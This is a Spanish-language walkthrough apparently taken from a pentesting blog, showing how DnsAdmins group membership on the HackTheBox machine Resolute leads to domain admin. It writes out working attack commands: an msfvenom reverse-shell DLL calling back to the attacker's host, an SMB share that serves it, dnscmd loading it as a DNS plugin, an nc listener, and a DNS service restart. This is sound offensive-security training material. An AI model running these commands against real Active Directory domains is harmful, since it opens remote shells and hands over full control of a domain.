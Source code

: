 ```yaml
---
title: Active Directory - Abusando del Grupo DNSAdmins
description: El grupo DNSAdmins permite inyectar una DLL maliciosa que se ejecutará automáticamente al iniciar el servicio.
date: 2024-12-12
categories: [active-directory, dnsadmins]
tags: [grupos-de-usuarios-especiales, escalada-de-privilegios, casos-de-ataques-ad, dnscmd, dll, msfvenom, smbserver]
img_path: /assets/img/abusing-dnsadmins-injecting-dll.png
image: /assets/img/abusing-dnsadmins-injecting-dll.png
---
```


## **Introducción**

Ya hemos publicado varios artículos sobre Active Directory, pero aún quedan muchos más que se irán subiendo próximamente. En este artículo, estaremos viendo como abusar del grupo *DNSAdmins* a nivel de dominio. Este grupo, lo que nos permite es crearnos una *DLL* maliciosa para manipular el servicio *DNS* para que, cuando se pare y arranque el servicio en cuestión, se cargue esta DLL que hemos creado y realices acciones como el usuario *Administrador*.

Para poder realizar este apartado, hemos usado la máquina [Resolute](https://app.hackthebox.com/machines/Resolute) de [Hack The Box](https://app.hackthebox.com/), cuya dirección IP es la *10.10.10.169* y el dominio correspondiente es *megabank.local*.

###  **Gráfico del escenario**

Para que podamos visualizarlo de una manera más sencilla, vamos a mostrar un gráfico representativo del escenario que vamos a realizar.

![abusando del grupo dnsadmins grafico representativo.png](/assets/img/abusando-del-grupo-dnsadmins-grafico-representativo.png)

### **Contexto**

Partiremos de la base en la que nos encontramos como el usuario *Ryan*. Este usuario, forma parte del grupo *Contractors* y este grupo a su vez, forma parte de *DnsAdmins*. Entonces, de forma indirecta, estamos dentro del grupo *DnsAdmins* y podemos realizar esta explotación.

## **Manos a la obra**
### **Identificando el grupo DnsAdmins**

Si miramos el grupo al que pertenecemos, observamos que estamos en el grupo *Contractors*.

```powershell
net user ryan
```

![net user ryan grupo contractors.png](/assets/img/net-user-ryan-grupo-contractors.png)

Sin embargo, al ejecutar el comando `whoami /all` aparece que formamos parte del grupo *DnsAdmins*.

```powershell
whoami /groups
```

![whoami groups vemos dnsadmins.png](/assets/img/whoami-groups-vemos-dnsadmins.png)

Esto se debe a que, el grupo *Contractors*, a su vez es miembro del grupo *DnsAdmins*. Esto lo podemos ver con `net localgroup DnsAdmins`.

```powershell
net localgroup DnsAdmins
```

![net localgroup dnsadmins vemos contractors.png](/assets/img/net-localgroup-dnsadmins-vemos-contractors.png)

Para verlo de una manera un poco más visual, podemos hacer uso de BloodHound. Este, nos muestra el "camino" que sigue nuestro usuario hasta llegar al grupo *DnsAdmin*.

![camino de ryan hasta llegar a dnsadmins.png](/assets/img/camino-de-ryan-hasta-llegar-a-dnsadmins.png)

Ser miembro de este grupo, supone una brecha de seguridad bastante grave sobre el *Domain Controler* ya que, tenemos el poder de inyectar una *DLL* maliciosa que se ejecutará al iniciar el servicio *DNS*. Como estamos dentro del grupo *DnsAdmins* tenemos los permisos necesarios como para parar y arrancar el servicio. A la hora del arranque, esta *DLL* que hemos configurado que se ejecute al inicio del mismo, se ejecutará y podremos realizar cualquier tipo de acción maliciosa como el usuario *Administrator*.

### **Abusando del grupo DnsAdmins**

Vamos a verlo de una manera más práctica. Primero, nos crearemos nuestra *DLL* maliciosa con `msfvenom` que se encargue de enviarnos una *Reverse Shell* a nuestra máquina por un puerto especificado. Los parámetros *LHOST* y *LPORT* pueden variar según el caso en el que nos encontremos y nuestras preferencias.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=NUESTRA-IP LPORT=PUERTO -f dll -o malicious.dll
```

![generando dll maliciosa.png](/assets/img/generando-dll-maliciosa.png)

A continuación, desde la máquina víctima estableceremos un nuevo archivo de configuración de una *DLL*. Esta *DLL* se cargará a través de un recurso compartido a nivel de red que, estaremos alojando en nuestra máquina de atacantes en el cual, estará esta *DLL* que hemos generado con `msfvenom`. Cuando la *DLL* se cargue, se ejecutará y nos enviará la consola a nuestra máquina de atacantes.

Como ya hemos comentado en el párrafo anterior, la *DLL* se cargará de un recurso compartido a nivel de red que estaremos alojando en nuestra máquina. Entonces, nos montaremos ese recurso compartido con `smbserver`.

```bash
smbserver.py smbFolder $(pwd) -smb2support
```

![recurso compartido con la dll.png](/assets/img/recurso-compartido-con-la-dll.png)

> Es **importante** tener en cuenta que si ejecutamos el comando anterior, el recurso compartido tendrá el nombre de *smbFolder* el cual, **se alojará en el directorio actual de trabajo**. Es en este directorio, en el que deberá de estar la *DLL* en cuestión.

Para establecer el fichero de configuración *DLL*, usaremos [`dnscmd.exe`](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/) de la siguiente manera.

```powershell
dnscmd.exe /config /serverlevelplugindll \\NUESTRA-IP\smbFolder\malicious.dll
```

En este punto, la *DLL* se cargará directamente desde el recurso compartido con nombre *smbFolder* que estará montado en nuestra máquina de atacantes y cuyo nombre de la *DLL* será `malicious.dll`.

### **Ganando acceso como Administrator**

Ahora, nos pondremos en escucha con `nc` por el puerto que le hemos indicado anteriormente a `msfvenom`. En este caso, el puerto en cuestión es el *443*.

```bash
rlwrap nc -nlvp PUERTO
```

![en escucha por el puerto 443 con rlwrap nc.png](/assets/img/en-escucha-por-el-puerto-443-con-rlwrap-nc.png)

Lo último que nos queda es *parar y arrancar el servicio DNS*. 

```powershell
sc.exe stop dns
sc.exe start dns
```

> Puede que el servicio lo tengamos que parar y arrancar **varias veces para que funcione** e incluso, tener que inyectar de nuevo la *DLL*.

Una vez arrancado el servicio, habremos obtenido una consola como el usuario administrador del dominio y acceso total al *DC*.

![obteniendo consola como administrador gracias a la dll maliciosa.png](/assets/img/obteniendo-consola-como-administrador-gracias-a-la-dll-maliciosa.png)

De esta manera, habremos comprometido el dominio habiéndonos convertido en el usuario con mayor privilegios.

## **Despedida**
Muchas gracias por dar una oportunidad a este artículo y espero que hayas adquirido un nuevo superpoder. Grupos de los que se pueden abusar a nivel de *Active Directory* son muchos, y es por ello que hay que tenerlos todos en cuenta.
